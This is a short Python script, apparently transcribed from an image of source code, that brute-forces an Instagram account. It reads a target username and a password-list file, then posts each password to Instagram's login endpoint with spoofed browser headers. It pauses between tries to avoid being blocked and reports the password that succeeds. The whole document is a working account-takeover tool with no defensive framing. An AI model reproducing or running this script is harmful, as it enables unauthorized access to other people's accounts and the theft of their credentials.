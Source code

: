 import requests
import time

def instagram_login(username, password):
    url = 'https://www.instagram.com/accounts/login/ajax/'
    payload = {
        'username': username,
        'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{password}',
        'queryParams': {},
        'optIntoOneTap': 'false'
    }
    headers = {
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36',
        'x-requested-with': 'XMLHttpRequest',
        'x-csrftoken': 'missing',
        'x-ig-app-id': '936619743392459',
        'x-asbd-id': '198384',
        'accept-language': 'en-US,en;q=0.9',
        'content-type': 'application/x-www-form-urlencoded',
        'accept': '*/*'
    }

    session = requests.Session()
    response = session.post(url, data=payload, headers=headers)

    if 'logged_in_user' in response.json():
        print(f"Successfully logged in with username: {username} and password: {password}")
        return True
    else:
        print(f"Failed to login with username: {username} and password: {password}")
        return False

def main():
    username = input("Enter the Instagram username: ")
    password_list = input("Enter the password list file path: ")

    with open(password_list, 'r') as file:
        passwords = file.readlines()

    for password in passwords:
        password = password.strip()
        if instagram_login(username, password):
            break
        time.sleep(1)  # To avoid getting blocked

if __name__ == "__main__":
    main()
